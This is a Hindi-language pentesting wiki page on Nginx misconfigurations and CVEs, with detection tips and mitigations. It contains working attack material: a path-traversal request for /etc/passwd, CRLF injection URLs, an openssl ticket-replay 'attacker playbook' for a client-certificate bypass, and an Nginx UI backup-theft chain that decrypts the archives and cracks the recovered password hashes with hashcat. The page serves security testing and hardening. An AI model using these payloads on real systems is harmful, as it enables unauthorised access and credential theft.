

# Nginx

{{#include ../../banners/hacktricks-training.md}}


## Missing root location <a href="#missing-root-location" id="missing-root-location"></a>

Nginx server को configure करते समय, **root directive** files serve किए जाने वाली base directory को define करके महत्वपूर्ण भूमिका निभाता है। नीचे दिए गए उदाहरण पर विचार करें:
```bash
server {
root /etc/nginx;

location /hello.txt {
try_files $uri $uri/ =404;
proxy_pass http://127.0.0.1:8080/;
}
}
```
इस configuration में, `/etc/nginx` को root directory के रूप में designated किया गया है। यह setup specified root directory के भीतर मौजूद files, जैसे `/hello.txt`, तक access की अनुमति देता है। हालांकि, यह ध्यान रखना महत्वपूर्ण है कि केवल एक specific location (`/hello.txt`) defined है। Root location (`location / {...}`) के लिए कोई configuration नहीं है। इस omission का अर्थ है कि root directive globally लागू होता है, जिससे root path `/` पर किए गए requests `/etc/nginx` के अंतर्गत मौजूद files तक access कर सकते हैं।

इस configuration से एक critical security consideration उत्पन्न होती है। एक simple `GET` request, जैसे `GET /nginx.conf`, `/etc/nginx/nginx.conf` पर स्थित Nginx configuration file को serve करके sensitive information expose कर सकती है। Root को `/etc` जैसी कम sensitive directory पर set करने से यह risk कम हो सकता है, फिर भी इससे अन्य critical files तक unintended access की अनुमति मिल सकती है, जिनमें अन्य configuration files, access logs और HTTP basic authentication के लिए उपयोग किए जाने वाले encrypted credentials भी शामिल हैं।<sup>[[1]](#references)</sup>

## Alias LFI Misconfiguration <a href="#alias-lfi-misconfiguration" id="alias-lfi-misconfiguration"></a>

Nginx की configuration files में, "location" directives का सावधानीपूर्वक निरीक्षण आवश्यक है। Local File Inclusion (LFI) के रूप में जानी जाने वाली vulnerability अनजाने में ऐसी configuration के माध्यम से introduce हो सकती है, जो निम्नलिखित के समान हो:
```
location /imgs {
alias /path/images/;
}
```
यह configuration LFI attacks के प्रति vulnerable है क्योंकि server `/imgs../flag.txt` जैसे requests को intended directory के बाहर की files access करने के प्रयास के रूप में interpret करता है, जो प्रभावी रूप से `/path/images/../flag.txt` पर resolve होता है। यह flaw attackers को server के filesystem से ऐसी files retrieve करने की अनुमति देता है, जो web के माध्यम से accessible नहीं होनी चाहिए।<sup>[[12]](#references)</sup>

इस vulnerability को mitigate करने के लिए, configuration को इस प्रकार adjust किया जाना चाहिए:
```
location /imgs/ {
alias /path/images/;
}
```
अधिक जानकारी: [https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/)<sup>[[12]](#references)</sup>

Accunetix परीक्षण:
```
alias../ => HTTP status code 403
alias.../ => HTTP status code 404
alias../../ => HTTP status code 403
alias../../../../../../../../../../../ => HTTP status code 400
alias../ => HTTP status code 403
```
## असुरक्षित path restriction <a href="#unsafe-variable-use" id="unsafe-variable-use"></a>

इस तरह के directives को bypass करने का तरीका जानने के लिए निम्नलिखित page देखें:
```plaintext
location = /admin {
deny all;
}

location = /admin/ {
deny all;
}
```
{{#ref}}
../../pentesting-web/proxy-waf-protections-bypass.md
{{#endref}}

## Unsafe variable use / HTTP Request Splitting <a href="#unsafe-variable-use" id="unsafe-variable-use"></a>

> [!CAUTION]
> Vulnerable variables `$uri` and `$document_ur`i और इसे `$request_uri` से replace करके ठीक किया जा सकता है।
>
> एक regex भी vulnerable हो सकता है, जैसे:
>
> `location ~ /docs/([^/])? { … $1 … }` - Vulnerable
>
> `location ~ /docs/([^/\s])? { … $1 … }` - Not vulnerable (spaces की जांच)
>
> `location ~ /docs/(.*)? { … $1 … }` - Not vulnerable

Nginx configuration में vulnerability नीचे दिए गए example से प्रदर्शित की गई है:
```
location / {
return 302 https://example.com$uri;
}
```
अक्षर \r (Carriage Return) और \n (Line Feed) HTTP requests में नई पंक्ति के characters को दर्शाते हैं, और इनके URL-encoded रूप `%0d%0a` के रूप में दर्शाए जाते हैं। किसी misconfigured server को भेजे गए request में इन characters को शामिल करने पर (जैसे, `http://localhost/%0d%0aDetectify:%20clrf`), server `Detectify` नाम का एक नया header जारी करता है। ऐसा इसलिए होता है क्योंकि $uri variable URL-encoded नई पंक्ति के characters को decode करता है, जिसके परिणामस्वरूप response में एक अप्रत्याशित header जुड़ जाता है:<sup>[[13]](#references)</sup>
```
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.19.3
Content-Type: text/html
Content-Length: 145
Connection: keep-alive
Location: https://example.com/
Detectify: clrf
```
CRLF injection और response splitting के risks के बारे में [https://blog.detectify.com/2019/06/14/http-response-splitting-exploitations-and-mitigations/](https://blog.detectify.com/2019/06/14/http-response-splitting-exploitations-and-mitigations/) पर अधिक जानें।<sup>[[13]](#references)</sup>

इस technique को कुछ vulnerable examples और detection mechanisms के साथ [**इस talk में समझाया गया है**](https://www.youtube.com/watch?v=gWQyWdZbdoY&list=PL0xCSYnG_iTtJe2V6PQqamBF73n7-f1Nr&index=77)।<sup>[[14]](#references)</sup> उदाहरण के लिए, blackbox perspective से इस misconfiguration का पता लगाने के लिए आप ये requests भेज सकते हैं:

- `https://example.com/%20X` - कोई भी HTTP code
- `https://example.com/%20H` - 400 Bad Request

यदि यह vulnerable है, तो पहली request सफल होगी क्योंकि "X" कोई भी HTTP method हो सकता है, जबकि दूसरी request error return करेगी क्योंकि H valid method नहीं है। इसलिए server को कुछ इस तरह प्राप्त होगा: `GET / H HTTP/1.1` और इससे error trigger होगा।

Detection के कुछ अन्य examples हैं:

- `http://company.tld/%20HTTP/1.1%0D%0AXXXX:%20x` - कोई भी HTTP code
- `http://company.tld/%20HTTP/1.1%0D%0AHost:%20x` - 400 Bad Request

उस talk में प्रस्तुत की गई कुछ vulnerable configurations थीं:

- ध्यान दें कि final URL में **`$uri`** को उसी रूप में set किया गया है
```
location ^~ /lite/api/ {
proxy_pass http://lite-backend$uri$is_args$args;
}
```
- ध्यान दें कि फिर से **`$uri`** URL में है (इस बार एक parameter के अंदर)
```
location ~ ^/dna/payment {
rewrite ^/dna/([^/]+) /registered/main.pl?cmd=unifiedPayment&context=$1&native_uri=$uri break;
proxy_pass http://$back;
```
- अब AWS S3 में
```
location /s3/ {
proxy_pass https://company-bucket.s3.amazonaws.com$uri;
}
```
### Any variable

यह पता चला कि कुछ परिस्थितियों में **user-supplied data** को **Nginx variable** के रूप में माना जा सकता है। इस व्यवहार का कारण अभी भी कुछ हद तक अस्पष्ट है, फिर भी यह न तो दुर्लभ है और न ही आसानी से verify किया जा सकता है। इस anomaly को HackerOne पर प्रकाशित एक security report में उजागर किया गया था, जिसे [यहां](https://hackerone.com/reports/370094) देखा जा सकता है। Error message की आगे की जांच से इसके Nginx के [SSI filter module](https://github.com/nginx/nginx/blob/2187586207e1465d289ae64cedc829719a048a39/src/http/modules/ngx_http_ssi_filter_module.c#L365) के codebase में होने की पहचान हुई, जिससे Server Side Includes (SSI) को इसका root cause माना गया।<sup>[[1]](#references)[[15]](#references)</sup>

इस **misconfiguration** का **detect** करने के लिए निम्न command execute की जा सकती है, जिसमें variable printing का test करने के लिए referer header set किया जाता है:
```bash
$ curl -H ‘Referer: bar’ http://localhost/foo$http_referer | grep ‘foobar’
```
इस misconfiguration के लिए systems में किए गए scans से कई ऐसे instances सामने आए जहाँ user द्वारा Nginx variables print किए जा सकते थे। हालाँकि, vulnerable instances की संख्या में कमी से पता चलता है कि इस issue को patch करने के प्रयास कुछ हद तक सफल रहे हैं।<sup>[[1]](#references)</sup>

### $URI$ARGS variables के साथ try_files का उपयोग

निम्नलिखित Nginx misconfiguration से LFI vulnerability हो सकती है:
```
location / {
try_files $uri$args $uri$args/ /index.html;
}
```
हमारे configuration में `try_files` directive है, जिसका उपयोग निर्दिष्ट क्रम में files के अस्तित्व की जाँच करने के लिए किया जाता है। Nginx को जो पहली file मिलेगी, वह उसे serve करेगा। `try_files` directive का basic syntax इस प्रकार है:
```
try_files file1 file2 ... fileN fallback;
```
Nginx प्रत्येक file के अस्तित्व की जांच निर्दिष्ट क्रम में करेगा। यदि कोई file मौजूद है, तो उसे तुरंत serve किया जाएगा। यदि निर्दिष्ट files में से कोई भी मौजूद नहीं है, तो request को fallback option पर भेज दिया जाएगा, जो कोई अन्य URI या specific error page हो सकता है।

हालांकि, इस directive में `$uri$args` variables का उपयोग करने पर Nginx ऐसी file खोजने का प्रयास करेगा जो request URI और किसी भी query string arguments के संयोजन से match करती हो। इसलिए हम इस configuration का exploit कर सकते हैं:
```
http {
server {
root /var/www/html/public;

location / {
try_files $uri$args $uri$args/ /index.html;
}
}
}
```
निम्नलिखित payload के साथ:
```
GET /?../../../../../../../../etc/passwd HTTP/1.1
Host: example.com
```
हमारे payload का उपयोग करके हम root directory (Nginx configuration में परिभाषित) से बाहर निकलेंगे और `/etc/passwd` फ़ाइल लोड करेंगे। debug logs में हम देख सकते हैं कि Nginx फ़ाइलों को कैसे आज़माता है:
```
...SNIP...

2025/07/11 15:49:16 [debug] 79694#79694: *4 trying to use file: "/../../../../../../../../etc/passwd" "/var/www/html/public/../../../../../../../../etc/passwd"
2025/07/11 15:49:16 [debug] 79694#79694: *4 try file uri: "/../../../../../../../../etc/passwd"

...SNIP...

2025/07/11 15:49:16 [debug] 79694#79694: *4 http filename: "/var/www/html/public/../../../../../../../../etc/passwd"

...SNIP...

2025/07/11 15:49:16 [debug] 79694#79694: *4 HTTP/1.1 200 OK

```
ऊपर बताई गई configuration का उपयोग करके Nginx के विरुद्ध PoC:


## Raw backend response reading

Nginx `proxy_pass` के माध्यम से एक ऐसी सुविधा प्रदान करता है, जो backend द्वारा उत्पन्न errors और HTTP headers को intercept करने की अनुमति देती है। इसका उद्देश्य internal error messages और headers को छिपाना है। यह backend errors के जवाब में Nginx द्वारा custom error pages serve करके किया जाता है। हालांकि, जब Nginx को invalid HTTP request का सामना करना पड़ता है, तब चुनौतियां उत्पन्न होती हैं। ऐसी request backend को उसी रूप में forward कर दी जाती है, और backend का raw response सीधे client को भेज दिया जाता है, बिना Nginx के किसी हस्तक्षेप के।<sup>[[1]](#references)</sup>

एक uWSGI application से जुड़े उदाहरण scenario पर विचार करें:
```python
def application(environ, start_response):
start_response('500 Error', [('Content-Type', 'text/html'), ('Secret-Header', 'secret-info')])
return [b"Secret info, should not be visible!"]
```
इसे manage करने के लिए, Nginx configuration में specific directives का उपयोग किया जाता है:
```
http {
error_page 500 /html/error.html;
proxy_intercept_errors on;
proxy_hide_header Secret-Header;
}
```
- [**proxy_intercept_errors**](http://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_intercept_errors): यह directive Nginx को 300 से अधिक status code वाले backend responses के लिए custom response serve करने में सक्षम बनाता है। यह सुनिश्चित करता है कि हमारे उदाहरण uWSGI application का `500 Error` response intercept होकर Nginx द्वारा handle किया जाए।
- [**proxy_hide_header**](http://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_hide_header): नाम से स्पष्ट है, यह directive client से specified HTTP headers को छिपाता है, जिससे privacy और security बेहतर होती है।

जब एक valid `GET` request की जाती है, Nginx उसे सामान्य रूप से process करता है और कोई secret headers reveal किए बिना standard error response लौटाता है। हालांकि, एक invalid HTTP request इस mechanism को bypass कर देती है, जिसके परिणामस्वरूप raw backend responses expose हो जाते हैं, जिनमें secret headers और error messages शामिल होते हैं।

## merge_slashes set to off

By default, Nginx का **`merge_slashes directive`** **`on`** पर set होता है, जो URL में मौजूद multiple forward slashes को एक single slash में compress करता है। यह feature URL processing को streamline करता है, लेकिन अनजाने में Nginx के पीछे मौजूद applications में vulnerabilities को छिपा सकता है, विशेष रूप से उन applications में जो local file inclusion (LFI) attacks के प्रति vulnerable हों। Security experts **Danny Robinson और Rotem Bar** ने इस default behavior से जुड़े संभावित risks को उजागर किया है, खासकर तब जब Nginx reverse-proxy के रूप में काम करता है।<sup>[[16]](#references)</sup>

ऐसे risks को कम करने के लिए, इन vulnerabilities के प्रति susceptible applications के लिए **`merge_slashes directive` को off करने** की recommendation दी जाती है। इससे Nginx requests को URL structure में कोई बदलाव किए बिना application तक forward करता है और इस प्रकार underlying security issues mask नहीं होते।

अधिक जानकारी के लिए [Danny Robinson and Rotem Bar](https://medium.com/appsflyer/nginx-may-be-protecting-your-applications-from-traversal-attacks-without-you-even-knowing-b08f882fd43d) देखें।<sup>[[16]](#references)</sup>

## `proxy_pass` path normalization & encoded slash confusion

एक कम स्पष्ट लेकिन बहुत common reverse-proxy bug तब दिखाई देता है जब एक **prefix location** को ऐसे `proxy_pass` के साथ combine किया जाता है जिसमें **URI path** भी मौजूद हो। [official `proxy_pass` docs](https://nginx.org/en/docs/http/ngx_http_proxy_module.html#proxy_pass) के अनुसार, यदि `proxy_pass` में URI मौजूद है, तो nginx normalized request URI को backend तक forward करता है। इसका अर्थ है कि upstream द्वारा path को देखे जाने से पहले **percent-decoding** और **dot-segment normalization** हो जाते हैं।<sup>[[7]](#references)[[21]](#references)</sup>

Risky configuration का example:
```nginx
location /api/ {
proxy_pass http://backend/;
}
```
इस configuration के साथ, `GET /api/public%2F%2E%2E%2Fsecret HTTP/1.1` जैसी request को nginx `/api/secret` में normalize करता है, `/api/` prefix को हटा देता है, और backend को `/secret` प्राप्त होता है। इससे कई व्यावहारिक attack paths बनते हैं:

- **Backend ACL bypasses** जब nginx केवल `/api/public/*` expose करता है, लेकिन application उसी upstream के पीछे sensitive routes भी serve करती है
- **Cache/key confusion** जब frontend और backend इस बात पर सहमत नहीं होते कि वास्तव में किस resource की request की गई थी
- **Client-side mitigations को bypass करना** जो browser द्वारा `%2F` को encoded बनाए रखने पर निर्भर थीं

### क्या देखना है

Config review के perspective से, ऐसे blocks को प्राथमिकता दें:
```nginx
location /prefix/ {
proxy_pass http://upstream/;
}

location /prefix/ {
proxy_pass http://upstream/app/;
}
```
यदि upstream public और internal routes दोनों expose करता है, या nginx का उपयोग path-based authorization लागू करने के लिए किया जाता है, तो इन पर अतिरिक्त ध्यान देना चाहिए। यह [इस पेज में](../../pentesting-web/proxy-waf-protections-bypass.md) समझाए गए path-confusion ACL bypasses से closely related है।

### Black-box probes
```bash
# Compare a legitimate public path with an encoded traversal variant
curl -i https://target.tld/api/public/info
curl -i https://target.tld/api/public%2F%2E%2E%2Fsecret

# If the backend reflects the route, look for normalization side effects
curl -i https://target.tld/api/foo%2F%2E%2E%2F
```
यदि दूसरी request अचानक अलग upstream route, login page, केवल admin के लिए response, या cacheable private object लौटाती है, तो `proxy_pass` normalization issues की आशंका करें।

### अधिक सुरक्षित patterns

यदि nginx को केवल request forward करनी है, तो URI वाला भाग छोड़ना बेहतर है:
```nginx
location /api/ {
proxy_pass http://backend;
}
```
यदि proxying से पहले path को rewrite करना आवश्यक हो, तो rewrites करने से पहले `$request_uri` के साथ **raw** request path को सुरक्षित रखें; अन्यथा rewrite nginx के normalized `$uri` पर काम करता है।

### **Malicious Response Headers**

जैसा कि [**this writeup**](https://mizu.re/post/cors-playground) में दिखाया गया है, कुछ headers ऐसे होते हैं जो यदि web server के response में मौजूद हों, तो वे Nginx proxy के behaviour को बदल देंगे।<sup>[[17]](#references)</sup> आप इन्हें [**in the docs**](https://www.nginx.com/resources/wiki/start/topics/examples/x-accel/) में देख सकते हैं:<sup>[[22]](#references)</sup>

- `X-Accel-Redirect`: Nginx को request को किसी निर्दिष्ट location पर internally redirect करने का निर्देश देता है।
- `X-Accel-Buffering`: नियंत्रित करता है कि Nginx को response को buffer करना चाहिए या नहीं।
- `X-Accel-Charset`: X-Accel-Redirect का उपयोग करते समय response का character set निर्धारित करता है।
- `X-Accel-Expires`: X-Accel-Redirect का उपयोग करते समय response का expiration time निर्धारित करता है।
- `X-Accel-Limit-Rate`: X-Accel-Redirect का उपयोग करते समय responses की transfer rate को सीमित करता है।

उदाहरण के लिए, **`X-Accel-Redirect`** header nginx में एक internal **redirect** कर देगा। इसलिए यदि nginx configuration में **`root /`** जैसा कुछ हो और web server के response में **`X-Accel-Redirect: .env`** हो, तो nginx **`/.env`** की content भेज देगा (Path Traversal)।

### **Default Value in Map Directive**

**Nginx configuration** में `map` directive अक्सर **authorization control** में भूमिका निभाता है। एक सामान्य गलती **default** value निर्दिष्ट न करना है, जिससे unauthorized access हो सकता है।<sup>[[3]](#references)</sup> उदाहरण के लिए:
```yaml
http {
map $uri $mappocallow {
/map-poc/private 0;
/map-poc/secret 0;
/map-poc/public 1;
}
}
```

```yaml
server {
location /map-poc {
if ($mappocallow = 0) {return 403;}
return 200 "Hello. It is private area: $mappocallow";
}
}
```
Without a `default`, एक **malicious user** `/map-poc` के भीतर किसी **undefined URI** को access करके security को bypass कर सकता है। [Nginx manual](https://nginx.org/en/docs/http/ngx_http_map_module.html) ऐसी समस्याओं से बचने के लिए **default value** सेट करने की सलाह देता है।

### **DNS Spoofing Vulnerability**

कुछ conditions में Nginx के विरुद्ध DNS spoofing संभव है। यदि attacker Nginx द्वारा उपयोग किए जाने वाले **DNS server** को जानता है और उसकी DNS queries को intercept कर सकता है, तो वह DNS records को spoof कर सकता है। हालांकि, यदि Nginx को DNS resolution के लिए **localhost (127.0.0.1)** का उपयोग करने के लिए configured किया गया हो, तो यह method ineffective है।<sup>[[2]](#references)</sup> Nginx में DNS server को इस प्रकार specify किया जा सकता है:
```yaml
resolver 8.8.8.8;
```
### **`proxy_pass` और `internal` Directives**

**`proxy_pass`** directive का उपयोग requests को अन्य servers पर redirect करने के लिए किया जाता है, चाहे वे internally हों या externally। **`internal`** directive यह सुनिश्चित करता है कि कुछ locations केवल Nginx के भीतर से ही accessible हों। ये directives स्वयं vulnerabilities नहीं हैं, लेकिन security lapses को रोकने के लिए इनके configuration की सावधानीपूर्वक जांच आवश्यक है।

## proxy_set_header Upgrade & Connection

यदि nginx server को Upgrade और Connection headers pass करने के लिए configured किया गया है, तो protected/internal endpoints तक पहुंचने के लिए [**h2c Smuggling attack**](../../pentesting-web/h2c-smuggling.md) किया जा सकता है।

> [!CAUTION]
> यह vulnerability attacker को **`proxy_pass` endpoint (`http://backend:9999` इस मामले में) के साथ direct connection स्थापित करने** की अनुमति देगी, जिसका content nginx द्वारा check नहीं किया जाएगा।

[यहां](https://bishopfox.com/blog/h2c-smuggling-request) से `/flag` चुराने के लिए vulnerable configuration का उदाहरण:<sup>[[18]](#references)</sup>
```
server {
listen       443 ssl;
server_name  localhost;

ssl_certificate       /usr/local/nginx/conf/cert.pem;
ssl_certificate_key   /usr/local/nginx/conf/privkey.pem;

location / {
proxy_pass http://backend:9999;
proxy_http_version 1.1;
proxy_set_header Upgrade $http_upgrade;
proxy_set_header Connection $http_connection;
}

location /flag {
deny all;
}
```
> [!WARNING]
> ध्यान दें कि भले ही `proxy_pass` किसी विशिष्ट **path** जैसे `http://backend:9999/socket.io` की ओर point कर रहा हो, connection `http://backend:9999` के साथ stablished होगा, इसलिए आप उस internal endpoint के अंदर किसी भी अन्य path से **contact कर सकते हैं। इसलिए इससे कोई फर्क नहीं पड़ता कि `proxy_pass` के URL में कोई path specified है।**

## `proxy_set_body` के साथ HTTP/2 upstream request injection

एक नया nginx-specific audit point **`proxy_http_version 2;`** और **`proxy_set_body`** का combination है। Vulnerable 2026 advisory window में, nginx ऐसा upstream HTTP/2 DATA frame बना सकता था जिसकी announced length wrap हो जाती थी, जबकि **attacker-influenced body bytes को पूरा** upstream peer तक forward किया जाता था। इसका practical consequence यह है कि upstream trailing bytes को **नए HTTP/2 frame headers / payload** के रूप में interpret कर सकता है, जिससे body rewrite primitive एक **upstream request injection / desynchronization** primitive में बदल जाता है।<sup>[[4]](#references)</sup>

यह internal API-gateway style deployments में विशेष रूप से interesting है, जहां nginx backend से HTTP/2 में communicate करता है और request body को user-controlled variables से rebuild किया जाता है। Example audit pattern:
```nginx
location /api/relay {
proxy_pass http://backend;
proxy_http_version 2;
proxy_set_body $arg_data;
}
```
### क्या देखें

- किसी भी reverse-proxy location में `proxy_http_version 2;`
- `proxy_set_body` में **request parameters, headers, captures, या variables** से input दिया गया हो
- Internal gRPC / HTTP/2 backends, जहाँ injected frame request semantics बदल सकता हो या अन्य streams को reset कर सकता हो

### Testing idea

यदि आप `proxy_set_body` में कॉपी किए जाने वाले bytes को प्रभावित कर सकते हैं, तो असामान्य रूप से बड़े values भेजें और इन पर नज़र रखें:

- केवल upstream पर होने वाली `RST_STREAM` / `GOAWAY` errors
- ऐसा backend behavior जो nginx access logs से अलग हो
- ऐसे responses जो संकेत दें कि upstream ने एक ही proxied request से **एक से अधिक logical frames** parse किए

यह वैचारिक रूप से [HTTP/2 request smuggling and downgrading issues](../../pentesting-web/http-request-smuggling/request-smuggling-in-http-2-downgrades.md) से संबंधित है, लेकिन यहाँ trust boundary **nginx और उसके HTTP/2 upstream peer** के बीच है।

## HTTP/3 QUIC module remote DoS & leak (2024)

2024 के दौरान Nginx ने CVE-2024-31079, CVE-2024-32760, CVE-2024-34161 और CVE-2024-35200 disclose किए। इनसे पता चला कि जब experimental `ngx_http_v3_module` compiled हो और `listen ... quic` socket exposed हो, तब **एक hostile QUIC session** worker processes को crash कर सकता है या memory leak कर सकता है। प्रभावित builds 1.25.0–1.25.5 और 1.26.0 हैं, जबकि 1.27.0/1.26.1 में fixes उपलब्ध हैं; memory disclosure (CVE-2024-34161) के लिए sensitive data सामने आने हेतु 4096 bytes से बड़े MTUs की भी आवश्यकता होती है (विवरण नीचे referenced 2024 nginx advisory में हैं)।<sup>[[19]](#references)</sup>

**Recon & exploitation hints**

- HTTP/3 opt-in है, इसलिए `Alt-Svc: h3=":443"` responses के लिए scan करें या UDP/443 QUIC handshakes को brute-force करें; पुष्टि होने के बाद worker crashes trigger करने और log leakage कराने के लिए custom `quiche-client`/`nghttp3` payloads से handshake और STREAM frames को fuzz करें।
- Target support को जल्दी fingerprint करने के लिए यह उपयोग करें:
```bash
nginx -V 2>&1 | grep -i http_v3
rg -n "listen .*quic" /etc/nginx/
```
## TLS session resumption द्वारा client cert auth bypass (CVE-2025-23419)

फरवरी 2025 की एक advisory में खुलासा किया गया कि OpenSSL के साथ build किया गया nginx 1.11.4–1.27.3 एक name-based virtual host से दूसरे के अंदर **TLS 1.3 session को reuse** करने की अनुमति देता है। इस कारण, certificate-free host के साथ negotiation करने वाला client ticket/PSK को replay करके `ssl_verify_client on;` से protected vhost में प्रवेश कर सकता है और mTLS को पूरी तरह bypass कर सकता है। यह bug तब trigger होता है जब multiple virtual hosts एक ही TLS 1.3 session cache और tickets share करते हैं (नीचे संदर्भित 2025 nginx advisory देखें)।<sup>[[5]](#references)</sup>

**Attacker playbook**
```bash
# 1. Create a TLS session on the public vhost and save the session ticket
openssl s_client -connect public.example.com:443 -sess_out ticket.pem

# 2. Replay that session ticket against the mTLS vhost before it expires
openssl s_client -connect admin.example.com:443 -sess_in ticket.pem -ign_eof
```
यदि target vulnerable है, तो दूसरा handshake client certificate प्रस्तुत किए बिना पूरा हो जाता है, जिससे protected locations का खुलासा होता है।

**क्या audit करें**

- ऐसे mixed `server_name` blocks जो `ssl_session_cache shared:SSL` और `ssl_session_tickets on;` साझा करते हैं।
- Admin/API blocks जो mTLS की अपेक्षा करते हैं, लेकिन public hosts से shared session cache/ticket settings inherit करते हैं।
- ऐसा automation जो TLS 1.3 session resumption को globally सक्षम करता है (जैसे Ansible roles), लेकिन vhost isolation पर विचार नहीं करता।

## HTTP/2 Rapid Reset resilience (CVE-2023-44487 behavior)

HTTP/2 Rapid Reset attack (CVE-2023-44487) तब भी nginx को प्रभावित करता है जब operators `keepalive_requests` या `http2_max_concurrent_streams` को defaults से अधिक बढ़ा देते हैं: attacker एक HTTP/2 connection खोलता है, उसे हजारों streams से flood करता है, फिर तुरंत `RST_STREAM` frames जारी करता है, ताकि concurrency ceiling कभी न पहुंचे और CPU tear-down logic पर लगातार खर्च होता रहे। Nginx defaults (128 concurrent streams, 1000 keepalive requests) blast radius को छोटा रखते हैं; इन limits को "substantially higher" करने पर workers को starve करना आसान हो जाता है, यहां तक कि single client से भी (नीचे referenced F5 write-up देखें)।<sup>[[6]](#references)</sup>

**Detection tips**
```bash
# Highlight risky knobs
rg -n "http2_max_concurrent_streams" /etc/nginx/
rg -n "keepalive_requests" /etc/nginx/
```
ऐसे directives के लिए असामान्य रूप से उच्च values दिखाने वाले Hosts prime targets होते हैं: एक HTTP/2 client stream creation और तुरंत `RST_STREAM` frames के loop के जरिए concurrency cap को trigger किए बिना CPU को लगातार व्यस्त रख सकता है।

## Optional `mp4` module attack surface

`ngx_http_mp4_module` nginx assessments के दौरान जांचने योग्य बना हुआ है, क्योंकि यह **default रूप से built नहीं होता**, लेकिन जब यह enabled हो और कोई location `mp4;` directive का उपयोग करे, तो एक hostile MP4 अभी भी worker-crash primitive बन सकता है। 2024 की advisory (CVE-2024-7347) ने दिखाया कि nginx pseudo-streaming के जरिए केवल **specially crafted MP4 को request करना** ही worker को crash करने के लिए पर्याप्त था; बाद की 2026 advisories दिखाती हैं कि यही module अभी भी parser bugs का recurring source है।<sup>[[8]](#references)</sup>

Offensive perspective से यह उन स्थितियों में महत्वपूर्ण है, जहां attacker:

- बाद में nginx के जरिए serve की जाने वाली media files को upload या replace कर सकता हो
- nginx को shared storage / object stores से attacker-controlled MP4 files parse करने के लिए मजबूर कर सकता हो
- ऐसे video endpoints तक पहुंच सकता हो जो file को सीधे pass through करने के बजाय nginx pseudo-streaming पर निर्भर हों

किसी box या container पर quick triage:
```bash
nginx -V 2>&1 | grep -o -- '--with-http_mp4_module'
rg -n '^\s*mp4\s*;' /etc/nginx /usr/local/nginx/conf 2>/dev/null
```
यदि दोनों checks hit हों, तो हर upload-to-stream path को संभावित nginx crash surface के रूप में test करें, न कि केवल application-level media parser bug के रूप में।

## Nginx UI pre-auth backup export + crypto material leak

**Nginx UI** nginx के लिए एक अलग admin panel है, स्वयं nginx daemon नहीं। **Nginx UI < 2.3.3** में backup export endpoint authentication के बिना reachable हो सकता है और response `X-Backup-Security` header के माध्यम से backup को decrypt करने के लिए आवश्यक **AES-256-CBC key और IV** भी leak कर सकता है। इससे "encrypted backup download" तुरंत **credential / token / private-key disclosure** में बदल जाता है।<sup>[[10]](#references)[[11]](#references)</sup>

### SPA assets से तेज version fingerprinting

यदि login page JS-heavy SPA है, तो `/` से main bundle प्राप्त करें और dedicated version chunk खोजें:<sup>[[9]](#references)</sup>
```bash
curl -s http://admin.example/ | grep -oP 'assets/index-[^"]+\.js'
curl -s http://admin.example/assets/index-<hash>.js | grep -oP 'version[-\\w]*\\.js'
curl -s http://admin.example/assets/version-<hash>.js
```
Vulnerable Nginx UI builds पर यह अक्सर `const t="2.3.2"` जैसा literal लौटाता है, जो authenticate करने से पहले vulnerable range से match करने के लिए पर्याप्त है।

### Exposed API endpoints की जाँच करें और backup प्राप्त करें

जब अधिकांश `/api/*` routes `403` लौटाते हैं, तब भी backup-style endpoints को सीधे test करें:<sup>[[9]](#references)</sup>
```bash
curl -s http://admin.example/api/install
curl -s -D headers.txt -o backup.zip http://admin.example/api/backup
grep -i '^X-Backup-Security:' headers.txt
unzip -l backup.zip
```
यदि vulnerable है, तो `X-Backup-Security` में `base64(key):base64(iv)` होता है। दोनों values को decode करें और अपेक्षित lengths की पुष्टि करें (**32-byte key**, **16-byte IV**):
```bash
KEY_B64='<base64-key>'; IV_B64='<base64-iv>'
KEY_HEX=$(printf '%s' "$KEY_B64" | base64 -d | xxd -p -c 0)
IV_HEX=$(printf '%s' "$IV_B64" | base64 -d | xxd -p -c 0)
unzip backup.zip -d backup
openssl enc -aes-256-cbc -d -in backup/hash_info.txt -out hash_info.txt -K "$KEY_HEX" -iv "$IV_HEX"
openssl enc -aes-256-cbc -d -in backup/nginx.zip -out nginx_dec.zip -K "$KEY_HEX" -iv "$IV_HEX"
openssl enc -aes-256-cbc -d -in backup/nginx-ui.zip -out nginx-ui_dec.zip -K "$KEY_HEX" -iv "$IV_HEX"
```
Decryption के बाद, recovered nginx configs और Nginx UI application data का निरीक्षण करें। एक सामान्य post-exploitation path है:

- `nginx_dec.zip` से reverse-proxy और vhost details extract करें
- `nginx-ui_dec.zip` में `app.ini`, `database.db`, API tokens या certificate material का निरीक्षण करें
- SQLite `users` table को dump करें और recovered password hashes को offline crack करें
```bash
unzip nginx-ui_dec.zip -d nginx-ui
sqlite3 nginx-ui/database.db 'select name,password from users;'
hashcat -m 3200 hashes.txt <wordlist>
```
इस pattern को अन्य admin products में भी test करना उचित है: **यदि response decryption material leak करता है या उसे archive के साथ store करता है, तो unauthenticated "encrypted" export अभी भी plaintext disclosure है।**

## स्वयं आज़माएँ

Detectify ने एक GitHub repository बनाई है, जहाँ आप Docker का उपयोग करके अपना vulnerable Nginx test server सेट कर सकते हैं। इसमें इस article में चर्चा की गई कुछ misconfigurations शामिल हैं, और आप उन्हें स्वयं खोजने का प्रयास कर सकते हैं!

[https://github.com/detectify/vulnerable-nginx](https://github.com/detectify/vulnerable-nginx)

## Static Analyzer tools

### [gixy-ng](https://github.com/dvershinin/gixy) & [Gixy-Next](https://gixy.io/) & [GIXY](https://github.com/yandex/gixy)


- [Gixy-Next](https://gixy.io/) (GIXY का updated fork) Nginx configurations का analysis करने वाला एक tool है, जिसका लक्ष्य vulnerabilities, insecure directives और risky misconfigurations ढूँढना है। यह performance को प्रभावित करने वाली misconfigurations भी ढूँढता है और छूटे हुए hardening opportunities का पता लगाता है, जिससे automated flaw detection संभव होता है।
- [gixy-ng](https://github.com/dvershinin/gixy) (GIXY का actively maintained fork) Nginx configurations का analysis करने वाला एक tool है, जिसका लक्ष्य vulnerabilities, insecure directives और risky misconfigurations ढूँढना है। यह performance को प्रभावित करने वाली misconfigurations भी ढूँढता है और छूटे हुए hardening opportunities का पता लगाता है, जिससे automated flaw detection संभव होता है।

### [Nginxpwner](https://github.com/stark0de/nginxpwner)

